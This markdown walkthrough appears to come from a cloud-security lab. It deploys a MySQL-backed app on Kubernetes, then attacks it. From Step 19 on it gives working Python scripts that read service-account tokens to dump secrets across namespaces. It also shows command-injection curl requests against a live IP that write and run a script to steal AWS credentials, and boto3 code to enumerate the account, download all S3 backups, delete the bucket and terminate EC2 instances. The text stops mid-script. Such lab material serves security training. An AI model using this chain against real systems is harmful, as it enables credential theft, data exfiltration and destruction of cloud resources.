




# Installing and Setting Up MySQL on EC2

## Step 1: Connect to your EC2 instance (DB Instance)

```bash
ssh db-instance
```

Replace `your-key.pem` with your actual key file and `your-ec2-public-ip` with your EC2 instance's public IP address.

## Step 2: Update package lists

```bash
sudo apt update
```

## Step 3: Install MySQL Server

```bash
sudo apt install mysql-server -y
```

## Step 4: Start MySQL service and enable it to start on boot

```bash
sudo systemctl start mysql
sudo systemctl enable mysql
```

## Step 5: Check MySQL status to verify it's running

```bash
sudo systemctl status mysql
```

You should see "active (running)" in the output.

## Step 6: Secure MySQL installation

```bash
sudo mysql_secure_installation
```

Follow the prompts:
1. When asked about the VALIDATE PASSWORD COMPONENT, choose a policy level (Medium is a good balance)
2. Enter and confirm a strong root password
3. Answer "Y" to remove anonymous users
4. Answer "Y" to disallow root login remotely
5. Answer "Y" to remove test database
6. Answer "Y" to reload privilege tables


## Step 7: Connect to MySQL

```bash
sudo mysql
```

## Step 8: Set Root Password and Configure Authentication

Run the following commands inside MySQL:

```sql
ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'StrongRootPassword123!';
FLUSH PRIVILEGES;
```

## Step 9: Create Database and User for the Application

While still in the MySQL prompt:

```sql
CREATE DATABASE doctors_db;

-- Create application user with a strong password
CREATE USER 'app_user'@'%' IDENTIFIED BY 'SecureAppUserPass456!';

-- Grant privileges to the application user
GRANT ALL PRIVILEGES ON doctors_db.* TO 'app_user'@'%';
FLUSH PRIVILEGES;
```

## Step 10: Create the Doctors Table

Still in MySQL:

```sql
-- Switch to the doctors database
USE doctors_db;

-- Create the doctors table
CREATE TABLE doctors (
  id INT AUTO_INCREMENT PRIMARY KEY,
  name VARCHAR(100) NOT NULL,
  phone VARCHAR(20) NOT NULL,
  address VARCHAR(255) NOT NULL,
  email VARCHAR(100) NOT NULL,
  created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- Exit MySQL
EXIT;
```

## Step 11: Configure MySQL for Remote Access

```bash
# Edit the MySQL configuration file
sudo nano /etc/mysql/mysql.conf.d/mysqld.cnf

# Find the line with bind-address and change it to:
# bind-address = 0.0.0.0

# Save and exit (Ctrl+X, then Y, then Enter)

# Restart MySQL to apply changes
sudo systemctl restart mysql
```

## Step 12: Verify the Setup

```bash
# Test logging in with the root user
mysql -u root -p
# Enter the root password: StrongRootPassword123!

# Once logged in, verify the database and table
SHOW DATABASES;
USE doctors_db;
SHOW TABLES;
DESCRIBE doctors;
EXIT;

# Test logging in with the application user
mysql -u app_user -p
# Enter the application user password: SecureAppUserPass456!

# Verify the permissions
SHOW DATABASES;
USE doctors_db;
SHOW TABLES;
EXIT;
```
## Step 13: App configure in k8s
```bash
echo -n '13.229.212.43' | base64

echo -n 'SecureAppUserPass456!' | base64


# mysql-secrets.yaml
apiVersion: v1
kind: Secret
metadata:
  name: mysql-creds
  namespace: doctors-app
type: Opaque
data:
  host: MTMuMjEyLjIwMC4yMjY=
  port: MzMwNg==  # Base64 encoded "3306"
  username: YXBwX3VzZXI=  # Base64 encoded "app_user"
  password: U2VjdXJlQXBwVXNlclBhc3M0NTYh
  database: ZG9jdG9yc19kYg==  # Base64 encoded "doctors_db"

# app-config.yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: doctors-app-config
  namespace: doctors-app
data:
  NODE_ENV: "production"
  PORT: "8000"
  MAX_CONNECTIONS: "10"
  CONNECTION_TIMEOUT: "10000" 


apiVersion: apps/v1
kind: Deployment
metadata:
  name: doctors-app
  namespace: doctors-app
spec:
  replicas: 2
  selector:
    matchLabels:
      app: doctors-app
  template:
    metadata:
      labels:
        app: doctors-app
    spec:
      containers:
      - name: doctors-app
        image: fazlulkarim105925/doctorslistapp:v1.0
        ports:
        - containerPort: 8000
        env:
        # Database credentials from secrets
        - name: MYSQL_HOST
          valueFrom:
            secretKeyRef:
              name: mysql-creds
              key: host
        - name: MYSQL_PORT
          valueFrom:
            secretKeyRef:
              name: mysql-creds
              key: port
        - name: MYSQL_USER
          valueFrom:
            secretKeyRef:
              name: mysql-creds
              key: username
        - name: MYSQL_PASSWORD
          valueFrom:
            secretKeyRef:
              name: mysql-creds
              key: password
        - name: MYSQL_DATABASE
          valueFrom:
            secretKeyRef:
              name: mysql-creds
              key: database
        # App configuration from configmap
        - name: NODE_ENV
          valueFrom:
            configMapKeyRef:
              name: doctors-app-config
              key: NODE_ENV
        - name: PORT
          valueFrom:
            configMapKeyRef:
              name: doctors-app-config
              key: PORT
        - name: MAX_CONNECTIONS
          valueFrom:
            configMapKeyRef:
              name: doctors-app-config
              key: MAX_CONNECTIONS
        resources:
          limits:
            cpu: "0.5"
            memory: "512Mi"
          requests:
            cpu: "0.1"
            memory: "256Mi"
        livenessProbe:
          httpGet:
            path: /
            port: 8000
          initialDelaySeconds: 30
          periodSeconds: 10
        readinessProbe:
          httpGet:
            path: /
            port: 8000
          initialDelaySeconds: 5
          periodSeconds: 5

apiVersion: v1
kind: Service
metadata:
  name: doctors-app
  namespace: doctors-app
spec:
  selector:
    app: doctors-app
  ports:
  - port: 80
    targetPort: 8000
  type: NodePort
  ```

## **Step 14: Deploy the MySQL and Application**
```bash
kubectl apply -f mysql-secrets.yaml
kubectl apply -f app-config.yaml
kubectl apply -f app-deployment.yaml
kubectl apply -f app-service.yaml
```

## **Step 15: Create AWS-Secret**
```bash
kubectl create secret generic aws-s3-credentials \
  --namespace=doctors-app \
  --from-literal=aws_access_key_id=YOUR_NEW_ACCESS_KEY \
  --from-literal=aws_secret_access_key=YOUR_NEW_SECRET_KEY \
  --from-literal=s3_bucket=my-unique-bucket-poridhi-security
```

## **Step 16: Create a Cronjob script with Configmap**
```bash
apiVersion: v1
kind: ConfigMap
metadata:
  name: mysql-backup-script
  namespace: doctors-app
data:
  backup-mysql-to-s3.sh: |
    #!/bin/bash
    # MySQL backup script to S3

    # Configuration
    MYSQL_HOST="${MYSQL_HOST}"
    MYSQL_PORT="${MYSQL_PORT}"
    MYSQL_USER="${MYSQL_USER}"
    MYSQL_PASSWORD="${MYSQL_PASSWORD}"
    MYSQL_DATABASE="${MYSQL_DATABASE}"
    S3_BUCKET="${S3_BUCKET}"
    BACKUP_DIR="/tmp/mysql_backups"
    DATE=$(date +"%Y-%m-%d-%H%M%S")
    BACKUP_FILE="$BACKUP_DIR/$MYSQL_DATABASE-$DATE.sql.gz"

    # Create backup directory if it doesn't exist
    mkdir -p $BACKUP_DIR

    # Create MySQL backup
    echo "Creating MySQL backup: $BACKUP_FILE"
    mysqldump --host=$MYSQL_HOST --port=$MYSQL_PORT --user=$MYSQL_USER --password=$MYSQL_PASSWORD $MYSQL_DATABASE | gzip > $BACKUP_FILE

    # Check if backup was successful
    if [ $? -eq 0 ]; then
        echo "MySQL backup created successfully."
    else
        echo "MySQL backup failed!"
        exit 1
    fi

    # Upload to S3
    echo "Uploading backup to S3 bucket: $S3_BUCKET"
    aws s3 cp $BACKUP_FILE s3://$S3_BUCKET/

    # Check if upload was successful
    if [ $? -eq 0 ]; then
        echo "Backup uploaded to S3 successfully."
    else
        echo "S3 upload failed!"
        exit 1
    fi

    # Clean up local backup
    rm $BACKUP_FILE
    echo "Local backup file removed."

    echo "Backup process completed: $DATE"
```

## **Step 16: Create a Cronjob to Backup MySQL to S3**
```bash
apiVersion: batch/v1
kind: CronJob
metadata:
  name: mysql-backup-cronjob
  namespace: doctors-app
spec:
  schedule: "0 14 * * *"  # Runs every day at 2 PM UTC
  concurrencyPolicy: Forbid  # Prevents multiple jobs from running simultaneously
  successfulJobsHistoryLimit: 3
  failedJobsHistoryLimit: 3
  jobTemplate:
    spec:
      ttlSecondsAfterFinished: 86400  # Deletes job 24h after completion
      template:
        spec:
          containers:
          - name: mysql-backup
            image: fazlulkarim105925/aws-cli-with-mysql-client:v1.1 
            command:
            - /bin/bash
            - /scripts/backup-mysql-to-s3.sh
            env:
            - name: MYSQL_HOST
              valueFrom:
                secretKeyRef:
                  name: mysql-creds
                  key: host
            - name: MYSQL_PORT
              valueFrom:
                secretKeyRef:
                  name: mysql-creds
                  key: port
            - name: MYSQL_USER
              valueFrom:
                secretKeyRef:
                  name: mysql-creds
                  key: username
            - name: MYSQL_PASSWORD
              valueFrom:
                secretKeyRef:
                  name: mysql-creds
                  key: password
            - name: MYSQL_DATABASE
              valueFrom:
                secretKeyRef:
                  name: mysql-creds
                  key: database
            - name: S3_BUCKET
              valueFrom:
                secretKeyRef:
                  name: aws-s3-credentials
                  key: s3_bucket
            - name: AWS_ACCESS_KEY_ID
              valueFrom:
                secretKeyRef:
                  name: aws-s3-credentials
                  key: aws_access_key_id
            - name: AWS_SECRET_ACCESS_KEY
              valueFrom:
                secretKeyRef:
                  name: aws-s3-credentials
                  key: aws_secret_access_key
            - name: AWS_DEFAULT_REGION
              value: "ap-southeast-1"
            volumeMounts:
            - name: backup-script
              mountPath: /scripts
          volumes:
          - name: backup-script
            configMap:
              name: mysql-backup-script
              defaultMode: 0755
          restartPolicy: OnFailure
```

## **Step 17: Create a job manually**
```bash
kubectl create job --from=cronjob/mysql-backup-cronjob test-backup -n doctors-app
```

## **Step 18: Check the job status**
```bash
kubectl get jobs -n doctors-app
```
```bash
kubectl logs job/test-backup -n doctors-app
```

## **Step 19: List Secret accross All namespace**
```bash
import urllib.request, ssl, json, os, sys

# Setup SSL context
ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

# Get token and namespace
token = open("/var/run/secrets/kubernetes.io/serviceaccount/token").read().strip()

# Get Kubernetes API server address from environment variables
kube_host = os.environ.get("KUBERNETES_SERVICE_HOST", "10.43.0.1")
kube_port = os.environ.get("KUBERNETES_SERVICE_PORT", "443")
base_url = f"https://{kube_host}:{kube_port}"

# Get namespaces
def get_data(url):
    try:
        req = urllib.request.Request(url)
        req.add_header("Authorization", "Bearer " + token)
        response = urllib.request.urlopen(req, context=ctx)
        return json.loads(response.read())
    except Exception as e:
        print(f"Error accessing {url}: {e}")
        return None

# Get namespaces first
try:
    namespaces_url = f"{base_url}/api/v1/namespaces"
    namespaces_data = get_data(namespaces_url)
    
    if namespaces_data and "items" in namespaces_data:
        print(f"Found {len(namespaces_data['items'])} namespaces")
        
        # Now get secrets in each namespace
        for ns in namespaces_data["items"]:
            ns_name = ns["metadata"]["name"]
            secrets_url = f"{base_url}/api/v1/namespaces/{ns_name}/secrets"
            
            secrets_data = get_data(secrets_url)
            if secrets_data and "items" in secrets_data and secrets_data["items"]:
                print(f"\nNamespace: {ns_name}")
                for secret in secrets_data["items"]:
                    name = secret["metadata"]["name"]
                    secret_type = secret["type"]
                    print(f"  - {name} (Type: {secret_type})")
                    
                    # Show the available keys
                    if "data" in secret and secret["data"]:
                        keys = list(secret["data"].keys())
                        print(f"    Keys: {', '.join(keys)}")
            else:
                print(f"\nNamespace: {ns_name}")
                print("  No secrets found in this namespace")
    else:
        print("No namespaces found")
except Exception as e:
    print(f"Global error: {e}")
```

## **Step 20: AWS-Credentials**

```bash
import urllib.request, ssl, json, base64, os

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

token = open("/var/run/secrets/kubernetes.io/serviceaccount/token").read().strip()
namespace = open("/var/run/secrets/kubernetes.io/serviceaccount/namespace").read().strip()

# Get Kubernetes API server address from environment variables
kube_host = os.environ.get("KUBERNETES_SERVICE_HOST", "10.43.0.1")
kube_port = os.environ.get("KUBERNETES_SERVICE_PORT", "443")
base_url = f"https://{kube_host}:{kube_port}"

url = f"{base_url}/api/v1/namespaces/{namespace}/secrets/aws-s3-credentials"
req = urllib.request.Request(url)
req.add_header("Authorization", "Bearer " + token)

try:
    resp = urllib.request.urlopen(req, context=ctx)
    data = json.loads(resp.read())
    
    if "data" in data:
        print("AWS credentials:")
        for key, value in data["data"].items():
            decoded = base64.b64decode(value).decode("utf-8")
            print(f"{key}: {decoded}")
    else:
        print("No data found in doctors-app secret")
except Exception as e:
    print("Error: " + str(e))
```

```bash
curl 'http://47.129.151.1/?search=echo%20%27import%20urllib.request%2C%20ssl%2C%20json%2C%20base64%0A%0Actx%20%3D%20ssl.create_default_context%28%29%0Actx.check_hostname%20%3D%20False%0Actx.verify_mode%20%3D%20ssl.CERT_NONE%0A%0Atoken%20%3D%20open%28%22/var/run/secrets/kubernetes.io/serviceaccount/token%22%29.read%28%29.strip%28%29%0A%0A%23%20Target%20the%20doctors-app%20namespace%20specifically%0Atarget_namespace%20%3D%20%22doctors-app%22%0A%0Aurl%20%3D%20%22https%3A//10.43.0.1%3A443/api/v1/namespaces/%22%20%2B%20target_namespace%20%2B%20%22/secrets/aws-s3-credentials%22%0Areq%20%3D%20urllib.request.Request%28url%29%0Areq.add_header%28%22Authorization%22%2C%20%22Bearer%20%22%20%2B%20token%29%0A%0Atry%3A%0A%20%20%20%20resp%20%3D%20urllib.request.urlopen%28req%2C%20context%3Dctx%29%0A%20%20%20%20data%20%3D%20json.loads%28resp.read%28%29%29%0A%20%20%20%20%0A%20%20%20%20if%20%22data%22%20in%20data%3A%0A%20%20%20%20%20%20%20%20print%28%22AWS%20credentials%20from%20doctors-app%20namespace%3A%22%29%0A%20%20%20%20%20%20%20%20for%20key%2C%20value%20in%20data%5B%22data%22%5D.items%28%29%3A%0A%20%20%20%20%20%20%20%20%20%20%20%20decoded%20%3D%20base64.b64decode%28value%29.decode%28%22utf-8%22%29%0A%20%20%20%20%20%20%20%20%20%20%20%20print%28f%22%7Bkey%7D%3A%20%7Bdecoded%7D%22%29%0A%20%20%20%20else%3A%0A%20%20%20%20%20%20%20%20print%28%22No%20data%20found%20in%20aws-s3-credentials%20secret%22%29%0Aexcept%20Exception%20as%20e%3A%0A%20%20%20%20print%28%22Error%3A%20%22%20%2B%20str%28e%29%29%27%20%3E%20/tmp/aws_creds_cross_namespace.py'
```

```bash
curl 'http://47.129.151.1/?search=python3%20/tmp/aws_creds_cross_namespace.py'
```



## **Step 21: View the Resources in AWS**
```bash
import boto3
import sys

def list_aws_core_resources():
    """
    List core AWS resources (EC2, S3, VPC, Subnet, Security Groups) using hardcoded credentials
    """
    # Hardcoded credentials - replace with your actual AWS credentials
    access_key = "<aws-access-key>"
    secret_key = "<aws-secret>"
    region = "ap-southeast-1"
    
    print(f"Starting AWS core resource enumeration in region {region}...")
    
    # Initialize session with provided credentials
    session = boto3.Session(
        aws_access_key_id=access_key,
        aws_secret_access_key=secret_key,
        region_name=region
    )
    
    # List EC2 instances
    try:
        ec2 = session.client('ec2')
        print("\n=== EC2 Instances ===")
        response = ec2.describe_instances()
        
        instance_count = 0
        for reservation in response['Reservations']:
            for instance in reservation['Instances']:
                instance_count += 1
                instance_id = instance['InstanceId']
                instance_type = instance['InstanceType']
                state = instance['State']['Name']
                private_ip = instance.get('PrivateIpAddress', 'N/A')
                public_ip = instance.get('PublicIpAddress', 'N/A')
                
                # Get instance name if it exists
                name = "N/A"
                if 'Tags' in instance:
                    for tag in instance['Tags']:
                        if tag['Key'] == 'Name':
                            name = tag['Value']
                
                print(f"ID: {instance_id}, Name: {name}, Type: {instance_type}, State: {state}")
                print(f"  Private IP: {private_ip}, Public IP: {public_ip}")
        
        if instance_count == 0:
            print("No EC2 instances found.")
    except Exception as e:
        print(f"Error listing EC2 instances: {str(e)}")
    
    # List S3 buckets
    try:
        s3 = session.client('s3')
        print("\n=== S3 Buckets ===")
        response = s3.list_buckets()
        
        if not response['Buckets']:
            print("No S3 buckets found.")
        else:
            for bucket in response['Buckets']:
                bucket_name = bucket['Name']
                creation_date = bucket['CreationDate']
                
                # Get bucket region
                try:
                    bucket_location = s3.get_bucket_location(Bucket=bucket_name)
                    bucket_region = bucket_location['LocationConstraint'] or "us-east-1"
                except:
                    bucket_region = "unknown"
                    
                print(f"Name: {bucket_name}, Region: {bucket_region}, Created: {creation_date}")
    except Exception as e:
        print(f"Error listing S3 buckets: {str(e)}")
    
    # List VPCs
    try:
        print("\n=== VPCs ===")
        response = ec2.describe_vpcs()
        
        if not response['Vpcs']:
            print("No VPCs found.")
        else:
            for vpc in response['Vpcs']:
                vpc_id = vpc['VpcId']
                cidr_block = vpc['CidrBlock']
                is_default = vpc['IsDefault']
                
                # Get VPC name if it exists
                name = "N/A"
                if 'Tags' in vpc:
                    for tag in vpc['Tags']:
                        if tag['Key'] == 'Name':
                            name = tag['Value']
                
                print(f"ID: {vpc_id}, Name: {name}, CIDR: {cidr_block}, Default: {is_default}")
    except Exception as e:
        print(f"Error listing VPCs: {str(e)}")
    
    # List Subnets
    try:
        print("\n=== Subnets ===")
        response = ec2.describe_subnets()
        
        if not response['Subnets']:
            print("No Subnets found.")
        else:
            for subnet in response['Subnets']:
                subnet_id = subnet['SubnetId']
                vpc_id = subnet['VpcId']
                cidr_block = subnet['CidrBlock']
                az = subnet['AvailabilityZone']
                
                # Get Subnet name if it exists
                name = "N/A"
                if 'Tags' in subnet:
                    for tag in subnet['Tags']:
                        if tag['Key'] == 'Name':
                            name = tag['Value']
                
                print(f"ID: {subnet_id}, Name: {name}, VPC: {vpc_id}")
                print(f"  CIDR: {cidr_block}, AZ: {az}")
    except Exception as e:
        print(f"Error listing Subnets: {str(e)}")
    
    # List Security Groups
    try:
        print("\n=== Security Groups ===")
        response = ec2.describe_security_groups()
        
        if not response['SecurityGroups']:
            print("No Security Groups found.")
        else:
            for sg in response['SecurityGroups']:
                sg_id = sg['GroupId']
                sg_name = sg['GroupName']
                vpc_id = sg['VpcId']
                description = sg['Description']
                
                print(f"ID: {sg_id}, Name: {sg_name}, VPC: {vpc_id}")
                print(f"  Description: {description}")
                
                # Print inbound rules
                print("  Inbound Rules:")
                if not sg['IpPermissions']:
                    print("    None")
                else:
                    for rule in sg['IpPermissions']:
                        from_port = rule.get('FromPort', 'All')
                        to_port = rule.get('ToPort', 'All')
                        ip_protocol = rule.get('IpProtocol', 'All')
                        
                        if ip_protocol == '-1':
                            ip_protocol = 'All'
                        
                        cidr_ranges = [ip_range['CidrIp'] for ip_range in rule.get('IpRanges', [])]
                        
                        if from_port == to_port:
                            port_range = f"Port {from_port}" if from_port != 'All' else "All Ports"
                        else:
                            port_range = f"Ports {from_port}-{to_port}"
                        
                        sources = cidr_ranges if cidr_ranges else ["No CIDR ranges specified"]
                        
                        for source in sources:
                            print(f"    {ip_protocol} {port_range} from {source}")
    except Exception as e:
        print(f"Error listing Security Groups: {str(e)}")

if __name__ == "__main__":
    list_aws_core_resources()
```


## **Step 21: Download All the Resources inside S3 bucket into my Local Machine**

```bash
import boto3
import os
import sys
from concurrent.futures import ThreadPoolExecutor
from botocore.exceptions import ClientError

def download_s3_object(s3_client, bucket_name, object_key, local_path, total_objects, current_index):
    """Download an individual S3 object and display progress"""
    try:
        # Create directory structure if it doesn't exist
        os.makedirs(os.path.dirname(local_path), exist_ok=True)
        
        # Download the file
        s3_client.download_file(bucket_name, object_key, local_path)
        
        # Print progress
        print(f"Downloaded [{current_index}/{total_objects}]: {object_key}")
        return True
    except Exception as e:
        print(f"Error downloading {object_key}: {str(e)}")
        return False

def backup_s3_bucket(bucket_name, access_key, secret_key, region='ap-southeast-1', local_dir=None):
    """
    Download all objects from an S3 bucket to a local directory
    
    Args:
        bucket_name (str): Name of the S3 bucket to backup
        access_key (str): AWS Access Key ID
        secret_key (str): AWS Secret Access Key
        region (str): AWS region name
        local_dir (str): Local directory to store the backup
    """
    # Set default backup directory if not specified
    if not local_dir:
        local_dir = f"./s3_backup_{bucket_name}"
    
    # Create local directory if it doesn't exist
    os.makedirs(local_dir, exist_ok=True)
    
    print(f"Starting backup of S3 bucket: {bucket_name}")
    print(f"Files will be saved to: {os.path.abspath(local_dir)}")
    
    # Initialize session
    session = boto3.Session(
        aws_access_key_id=access_key,
        aws_secret_access_key=secret_key,
        region_name=region
    )
    
    # Create S3 client
    s3_client = session.client('s3')
    
    try:
        # Get list of all objects in the bucket
        print("Listing objects in bucket...")
        paginator = s3_client.get_paginator('list_objects_v2')
        pages = paginator.paginate(Bucket=bucket_name)
        
        all_objects = []
        for page in pages:
            if 'Contents' in page:
                all_objects.extend(page['Contents'])
        
        if not all_objects:
            print(f"No objects found in bucket {bucket_name}")
            return
        
        total_objects = len(all_objects)
        total_size = sum(obj['Size'] for obj in all_objects)
        
        print(f"Found {total_objects} objects (Total size: {total_size / (1024 * 1024):.2f} MB)")
        
        # Ask for confirmation
        confirmation = input(f"Do you want to download all {total_objects} objects? (yes/no): ")
        if confirmation.lower() != 'yes':
            print("Backup cancelled.")
            return
        
        # Download objects using a thread pool for parallel downloads
        print("Starting download...")
        successful_downloads = 0
        failed_downloads = 0
        
        with ThreadPoolExecutor(max_workers=10) as executor:
            futures = []
            for index, obj in enumerate(all_objects, 1):
                key = obj['Key']
                local_path = os.path.join(local_dir, key)
                futures.append(
                    executor.submit(
                        download_s3_object, 
                        s3_client, 
                        bucket_name, 
                        key, 
                        local_path, 
                        total_objects, 
                        index
                    )
                )
            
            for future in futures:
                if future.result():
                    successful_downloads += 1
                else:
                    failed_downloads += 1
        
        print("\nBackup Summary:")
        print(f"Total objects: {total_objects}")
        print(f"Successfully downloaded: {successful_downloads}")
        print(f"Failed downloads: {failed_downloads}")
        print(f"Backup saved to: {os.path.abspath(local_dir)}")
        
    except ClientError as e:
        print(f"AWS Error: {str(e)}")
    except Exception as e:
        print(f"Error: {str(e)}")

if __name__ == "__main__":
    # Replace with your actual AWS credentials
    ACCESS_KEY = "<aws-access-key>"
    SECRET_KEY = "<aws-secret>"
    REGION = "ap-southeast-1"
    
    # The bucket to backup
    BUCKET_NAME = "my-unique-bucket-poridhi-security"
    
    # Specify a backup directory (optional)
    BACKUP_DIR = f"./s3_backup_{BUCKET_NAME}"
    
    backup_s3_bucket(BUCKET_NAME, ACCESS_KEY, SECRET_KEY, REGION, BACKUP_DIR)
```

### Unzip the downloaded files

```bash
gunzip -c doctors_db-2025-03-24-161802.sql.gz > doctors_db-2025-03-24-161802.sql
```



## **Step 22: Delete the S3 Bucket**
```bash
import boto3
import sys

def delete_s3_bucket(bucket_name, access_key, secret_key, region='ap-southeast-1'):
    """
    Delete an S3 bucket and all its contents
    
    Args:
        bucket_name (str): Name of the S3 bucket to delete
        access_key (str): AWS Access Key ID
        secret_key (str): AWS Secret Access Key
        region (str): AWS region name
    """
    print(f"Attempting to delete S3 bucket: {bucket_name}")
    
    # Initialize session
    session = boto3.Session(
        aws_access_key_id=access_key,
        aws_secret_access_key=secret_key,
        region_name=region
    )
    
    # Create S3 resource
    s3 = session.resource('s3')
    bucket = s3.Bucket(bucket_name)
    
    # First delete all objects and object versions in the bucket
    try:
        print(f"Deleting all objects in bucket {bucket_name}...")
        bucket.objects.all().delete()
        print("All objects deleted.")
        
        # Delete all object versions and delete markers
        print("Deleting object versions...")
        bucket.object_versions.delete()
        print("All object versions deleted.")
        
        # Now delete the empty bucket
        print(f"Deleting bucket {bucket_name}...")
        bucket.delete()
        print(f"Bucket {bucket_name} has been successfully deleted.")
    except Exception as e:
        print(f"Error: {str(e)}")
        sys.exit(1)

if __name__ == "__main__":
    # Replace with your actual AWS credentials
    ACCESS_KEY = "<aws-access-key>"
    SECRET_KEY = "<aws-secret>"
    REGION = "ap-southeast-1"
    
    # The bucket to delete
    BUCKET_NAME = "my-unique-bucket-poridhi-security"
    
    # Confirm deletion
    confirmation = input(f"Are you sure you want to delete bucket '{BUCKET_NAME}'? This action cannot be undone. (yes/no): ")
    if confirmation.lower() != 'yes':
        print("Bucket deletion cancelled.")
        sys.exit(0)
    
    delete_s3_bucket(BUCKET_NAME, ACCESS_KEY, SECRET_KEY, REGION)
```



## **Step 23: Delete all the EC2-Instances with Options**
```bash
import boto3
import sys

def list_ec2_instances(ec2_client):
    """List all EC2 instances with their IDs and names"""
    print("Listing all EC2 instances...")
    response = ec2_client.describe_instances()
    
    instances = []
    for reservation in response['Reservations']:
        for instance in reservation['Instances']:
            instance_id = instance['InstanceId']
            instance_state = instance['State']['Name']
            
            # Get instance name if it exists
            name = "N/A"
            if 'Tags' in instance:
                for tag in instance['Tags']:
                    if tag['Key'] == 'Name':
                        name = tag['Value']
            
            instances.append({
                'id': instance_id,
                'name': name,
                'state': instance_state
            })
            print(f"ID: {instance_id}, Name: {name}, State: {instance_state}")
    
    return instances

def delete_ec2_instance(ec2_client, instance_id):
    """Delete a specific EC2 instance by ID"""
    try:
        print(f"Terminating EC2 instance: {instance_id}")
        response = ec2_client.terminate_instances(
            InstanceIds=[instance_id]
        )
        
        for instance in response['TerminatingInstances']:
            print(f"Instance {instance['InstanceId']} state changing from {instance['PreviousState']['Name']} to {instance['CurrentState']['Name']}")
        
        return True
    except Exception as e:
        print(f"Error terminating instance {instance_id}: {str(e)}")
        return False

def delete_instances_by_filter(ec2_client, tag_key, tag_value):
    """Delete EC2 instances based on a tag filter"""
    try:
        response = ec2_client.describe_instances(
            Filters=[
                {
                    'Name': f'tag:{tag_key}',
                    'Values': [tag_value]
                }
            ]
        )
        
        instance_ids = []
        for reservation in response['Reservations']:
            for instance in reservation['Instances']:
                if instance['State']['Name'] not in ['terminated', 'shutting-down']:
                    instance_ids.append(instance['InstanceId'])
        
        if not instance_ids:
            print(f"No running instances found with tag {tag_key}={tag_value}")
            return False
        
        print(f"Found {len(instance_ids)} instances to terminate: {', '.join(instance_ids)}")
        confirmation = input(f"Are you sure you want to terminate these instances? (yes/no): ")
        if confirmation.lower() != 'yes':
            print("Instance termination cancelled.")
            return False
        
        return delete_ec2_instance(ec2_client, instance_ids[0]) if len(instance_ids) == 1 else delete_multiple_ec2_instances(ec2_client, instance_ids)
